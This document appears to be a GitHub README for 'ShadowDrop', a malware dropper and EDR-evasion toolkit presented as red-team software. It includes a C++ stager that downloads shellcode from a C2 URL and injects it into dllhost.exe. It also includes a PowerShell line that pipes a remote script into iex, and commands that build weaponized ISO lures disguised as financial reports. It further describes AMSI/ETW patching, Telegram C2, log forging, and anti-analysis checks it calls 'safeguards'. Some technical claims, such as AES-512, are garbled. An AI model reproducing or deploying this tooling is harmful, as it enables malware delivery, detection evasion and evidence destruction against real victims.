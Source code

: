
<div align="left">
    
# ⚔️ ShadowDrop Framework  
**Advanced Malware Dropper & Evasion Toolkit for Authorized Red Teaming**


> ⚠️ **LEGAL WARNING**: This toolkit is designed exclusively for authorized penetration testing and defensive research. Unauthorized use violates international laws.

**The core of the system:**
```mermaid
graph LR
    A[Core Engine] -->|Secure IPC| B[Vectors]
    A -->|Encrypted Channels| C[Evasion]
    A -->|Obfuscated API| D[C2]
    B --> E[Target]
    C --> E
    D --> E
```

**By accessing this repository, you irrevocably agree to**:  
1. **Authorization Requirement**: Use ONLY on systems with explicit written owner consent
2. **Zero-Collateral Policy**: Never disrupt production systems or exfiltrate real data  
3. **Full Anonymity**: Strip all metadata and watermarking before deployment  
4. **Non-Attribution**: Never reference this project in engagement reports  

> Technical architecture: Multi-level protection system
```mermaid
graph TD
    A[Operator] --> B{Payload Generation}
    B --> C[Polymorphic .LNK]
    B --> D[ISO/IMG]
    B --> E[Zero-Click Exploits]
    A --> F{Evasion Modules}
    F --> G[AMSI/Kernel Patching]
    F --> H[ETW/TiWorker Neutralization]
    F --> I[Direct Syscalls]
    A --> J{Operational Security}
    J --> K[Tor C2 Routing]
    J --> L[Memory-Only Execution]
    J --> M[Log Forging]
```
> Current Stage: Alpha Development

✅ **Completed Modules**:
- Memory-only reflective loader
- Weaponized LNK/ISO generators
- AMSI/ETW patching
- Telegram dead-drop C2
- Basic anti-forensics

## 🧰 Core Capabilities

### 🧬 Next-Gen Payload Delivery
```cpp
void ExecuteStagedPayload(LPCSTR c2_url) {
    BYTE* shellcode = DownloadEncryptedPayload(c2_url);
    XORDecrypt(shellcode, 0xAA);
    InjectIntoProcess("dllhost.exe", shellcode); // Living-off-the-Land
    WipeMemory(shellcode); // Zero forensic footprint
}
```

- Polymorphic droppers with runtime code mutation  
- Zero-touch deployment via weaponized LNK/ISO containers  
- Process ghosting with section object hijacking  
- API unhooking for EDR bypass  

> Polymorphic engine
```mermaid
sequenceDiagram
    participant Stager
    participant Cryptor
    participant Memory
    
    Stager->>Cryptor: Request decryption key (TPM 2.0)
    Cryptor->>Stager: Dynamic key (AES-512-CTR)
    Stager->>Memory: Load encrypted payload
    Stager->>Cryptor: Decrypt in registers
    Cryptor->>Memory: Write plaintext (RX only)
    Memory->>Stager: Execute payload
    Stager->>Cryptor: Zeroize keys
```

### 🔥 Operational Features

#### C2 Infrastructure
- Dead-drop synchronization via Telegram bots  
- Geofenced payload activation (GPS coordinates)  
- Self-destruct on forensic tool detection  

#### Anti-Forensics
- MFT entry corruption  
- Timestomping  
- Memory-only persistence  

### 🚀 Rapid Deployment
```powershell
# Install ShadowDrop framework
iwr https://raw.githubusercontent.com/Untouchable17/ShadowDrop-Framework/main/install.ps1 -UseBasicParsing | iex

# Generate weaponized ISO (Office 0-day)
New-ShadowDropVector -Template FinancialReport -Payload Meterpreter -Obfuscation 7 -Output "Q3_Results.iso"

# Build custom dropper (C++/ASM hybrid)
Compile-ShadowDrop -Source .\Core\Stager.cpp -Arch x64 -Evasion "ETW+PatchGuard" -Output stager.bin

# Execute test campaign
Start-RedTeamOperation -Campaign "Operation Midnight" -TargetDomain corp.local -SafeMode
```
Output: Fully weaponized ISO with fingerprint-matching decoy documents

### 🧩 Framework Architecture
```bash
ShadowDrop/
├── Core/                      # Framework engine
│   ├── Stager                 # Memory-only loader
│   ├── Cryptor                # ChaCha20 + AES-NI
│   └── AntiForensics          # Evidence elimination
├── Vectors/                   # Delivery mechanisms
│   ├── LNK_Generator          # Weaponized shortcut creator
│   ├── ISO_Weaponizer         # Exploit-packed ISOs
│   └── OneClick_Exploits      # Browser/documents 0days
├── Evasion/                   # Detection avoidance
│   ├── AMSI_Killer            # Kernel-level patching
│   ├── ETW_Eraser             # Event Tracing dismantling
│   └── Syscall_Hell           # Direct syscall gates
├── C2/                        # Command infrastructure
│   ├ DeadDrop_Comms           # Telegram/Signal C2
│   ├ GeoFence_Activator       # Location-based triggers
│   └ Burner_Protocol          # Self-destruct system
└── Operations/                # Mission control
    ├ OpSec_Validator          # Target verification
    ├ Log_Forger               # Evidence fabrication
    └ Exfil_Simulator          # Beacon testing
```

## 🔒 Compliance Safeguards
```csharp
// Embedded safety protocols
if (!IsAuthorizedEnvironment()) {
    TriggerSelfDestruct(0xDEAD); // Immediate wipe
}

bool IsAuthorizedEnvironment() {
    return CheckDebugger()          ? false :  // Debugger
           CheckVM()               ? false :  // Virtualization
           CheckDomain("prod.corp") ? false : // Production check
           CheckGeoIP("RU,CN,IR")  ? false : // Geo-blocked
           true;
}
```

- Automatic shutdown in unauthorized environments  
- Payload deactivation after 72 hours  
- Embedded watermarking (SHA-3 operator ID)  
- Zero disk writes (memory-only operation)  

## 📜 License & Operational Constraints
**License**: GPL-3.0+ Use Restriction  

**Mandatory OPSEC**:
```bash
# Strip all metadata before use
python -m shadowdrop.sanitize --file weaponized.iso
```
```diff
- Critical: Always use VPN chaining and burner devices
+ Operational Tip: Pair with Cobalt Strike for full campaign simulation
```


> Disclaimer: All payloads execute benign calc.exe (or other) by default. Real-world weaponization requires external payload integration. Developers bear zero liability for misuse.
